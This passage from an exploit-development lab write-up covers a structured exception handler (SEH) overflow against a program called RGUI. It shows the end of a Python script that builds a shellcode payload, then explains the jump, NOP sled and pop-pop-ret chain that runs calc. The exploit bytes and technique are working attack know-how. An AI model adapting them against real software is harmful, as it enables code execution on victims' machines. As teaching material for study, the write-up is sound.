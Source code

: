 ```python
buf += b"\x79\x28\x76\xce\x7a\x01\x4a\x51\xf8\x58\x9f\xb1\xc1"
buf += b"\x92\xd2\xb0\x06\xce\x1f\xe0\xdf\x84\xb2\x15\x54\xd0"
buf += b"\x0e\x9d\x26\xf4\x16\x42\xfe\xf7\x37\xd5\x75\xae\x97"
buf += b"\xd7\x5a\xda\x91\xcf\xbf\xe7\x68\x7b\x0b\x93\x6a\xad"
buf += b"\x42\x5c\xc0\x90\x6b\xaf\x18\xd4\x4b\x50\x6f\x2c\xa8"
buf += b"\xed\x68\xeb\xd3\x29\xfc\xe8\x73\xb9\xa6\xd4\x82\x6e"
buf += b"\x30\x9e\x88\xdb\x36\xf8\x8c\xda\x9b\x72\xa8\x57\x1a"
buf += b"\x55\x39\x23\x39\x71\x62\xf7\x20\x20\xce\x56\x5c\x32"
buf += b"\xb1\x07\xf8\x38\x5f\x53\x71\x63\x35\xa2\x07\x19\x7b"
buf += b"\xa4\x17\x22\x2b\xcd\x26\xa9\xa4\x8a\xb6\x78\x81\x65"
buf += b"\xfd\x21\xa3\xed\x58\xb0\xf6\x73\x5b\x6e\x34\x8a\xd8"
buf += b"\x9b\xc4\x69\xc0\xe9\xc1\x36\x46\x01\xbb\x27\x23\x25"
buf += b"\x68\x47\x66\x46\xef\xdb\xea\xa7\x8a\x5b\x88\xb7"
payload += buf

f.write(payload)
f.close()
```
{% endcode %}

Let's send the payload to RGUI and observe the stack once the payload is sent to the program:

![Stack memory layout after the payload is sent to the program](<../../../.gitbook/assets/image (1011).png>)

Below gif captures the full exploitation process:

![Confirming our SEH overflow exploit works](../../../.gitbook/assets/seh-overflow-exploit.gif)

From above screenshot, note the following key points:

* Once we're at `0141E768`, relative short `jmp + 6` jumps to the start of our `NOP` sled at `0141E770`;
* The `NOP` sled takes us to the start of our shellcode at `0141E77A`;
* Once we hit F9 to resume execution, the shellcode is successfully executed and the calc is popped.

## Summary

We can summarize that SEH overflow exploitation at a high level works as shown in the below diagram:

![SEH overflow exploitation process overview](<../../../.gitbook/assets/image (1012).png>)

1. Payload makes the program throw an exception;
2. SEH handler kicks in, which has been overwritten with a memory address in the program that contains `pop pop ret` instructions;
3. `Pop pop ret` instructions make the program jump to the next SEH record, which is overwritten with a short relative jump to the shellcode;
4. Shellcode is executed.

We can update the above diagram with memory addresses that we observed in this lab like so:

![SEH overflow exploitation process as observed in the labs](<../../../.gitbook/assets/image (1017).png>)
